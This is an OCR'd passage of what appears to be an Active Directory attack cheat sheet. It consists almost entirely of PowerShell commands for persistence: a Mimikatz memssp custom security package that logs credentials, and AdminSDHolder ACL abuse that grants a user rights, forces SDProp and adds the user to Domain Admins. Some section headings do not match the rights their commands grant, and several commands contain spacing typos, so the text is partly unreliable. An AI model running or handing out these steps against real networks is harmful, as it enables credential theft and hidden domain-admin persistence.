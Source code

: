 ### Custom SSP - Persistence
```
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' | select -ExpandProperty 'Security Packages'
$packages += "mimilib"
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages
Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
Invoke-Mimikatz -Command '"misc::memssp"'
type C:\Windows\system32\kiwissp.log
```

### Persistence using ACLs - AdminSDHolder
* Add FullControl permissions for a user to the AdminSDHolderusing PowerViewas DA  
```
Import-Module Microsoft.ActiveDirectory.Management.dll
Import-Module ActiveDirectory.psd1
. .\SetADACL.ps1
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder, CN=System' -PrincipalSamAccountName <user> -Rights All -Verbose
Set-ADACL -DistinguishedName 'CN=AdminSDHolder, CN=System, DC=<domain_child>, DC=<domain_root>, DC=local' -Principal <user> - Verbose
```

* Invoke-SDPropagator  
```
$sess = New-PSSession -ComputerName <hostname_dc>.<domain>
Invoke-Command -FilePath .\Invoke-SDPropagator.ps1 -Session $sess
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```

* Abusing FullControl using PowerView_dev  
```
Get-ADUser -Identity <user>
Add-ADGroupMember -Identity 'Domain Admins' -Members <user> -Verbose
Get-ADGroupMember -Identity 'Domain Admins'
```

* Others - WriteMembers Permission for a user to the AdminSDHolder  
```
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder, CN=System' -PrincipalSamAccountName <user> -Rights ResetPassword -Verbose
```

* Others - ResetPassword Permission and abusing for a user to the AdminSDHolder  
```
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder, CN=System' -PrincipalSamAccountName <user> -Rights WriteMembers -Verbose
Set-DomainUserPassword -Identity <user> -AccountPassword(ConvertTo-SecureString "Password@123" -AsPlainText -Force) -Verbose
Set-ADAccountPassword-Identity <user> -NewPassword(ConvertTo-SecureString "Password@123" -AsPlainText-Force) -Verbose
```
